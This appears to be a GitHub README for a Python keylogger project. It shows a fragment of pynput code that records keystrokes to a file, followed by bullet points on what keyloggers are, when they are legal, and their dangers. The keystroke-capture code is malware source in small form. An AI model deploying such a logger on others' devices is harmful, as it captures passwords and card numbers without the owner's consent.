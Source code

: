 ```python
            for key in keys:
                k = str(key).replace("'", "")
                if k.find("space") > 0:
                    f.write('\n')
                if key == Key.enter:
                    f.write("\n")
                if key == Key.esc:
                    print("[LOG]: KeyLogger Closed.")   
                    exit()
                if k.find("Key") == -1:
                    f.write(k)
                f.close()
    
    def onRelease(key):
        if key == Key.esc:
            return False
        
    with Listener(on_press = onPress, on_release = onRelease) as listener:
        listener.join()
```

<h2>Analysis of KeyLogger</h2>


<h4>What is a Keylogger</h4>



* Keyloggers are **activity monitoring software programs** that give attackers access to your personal data.
* The passwords and credit card numbers you type, the web pages you visit, and so on all by logging your keyboard strokes.
* The software is installed on your computer, and records everything you type.
* Then it sends this log file to a server, where cybercriminals wait to make use of all this sensitive information.

<h4>Is it illegal</h4>




* They aren’t. They do have legitimate, useful applications. 
* For example, keyloggers are often used by IT departments to troubleshoot problems and systems. 
* Also, they can keep an eye on employee activities. 
* And on a personal level, you can keep an eye on what your kids are up to on your computer.
* Plus there are plenty of other perfectly legal use cases for installing a keylogger on computers.
* Keylogging goes south and becomes a threat if there is malicious intent.
* Simply put, if you install a keylogger on a device you own, it is legal. 
* If a keylogger is installed behind the back of the actual owner to steal data, it is illegal.

<h4>Security Concerns</h4>




* The main danger of keyloggers is hackers can use them to decipher passwords and other information entered using the keyboard.
* This means that cybercriminals can figure out your PINs, account numbers, and login information for financial, gaming, and online shopping accounts. 
* Once they have this information, they can transfer money from your bank, run up expensive credit card bills, or log onto your accounts.
* Hackers also use keyloggers to spy on organizations and governments, which can result in devastating security and data breaches.
* In addition, keyloggers are notoriously difficult to detect. This is because they don’t affect your computer in any obvious way. A keylogger may be at work for a long time before the user realizes something is wrong.
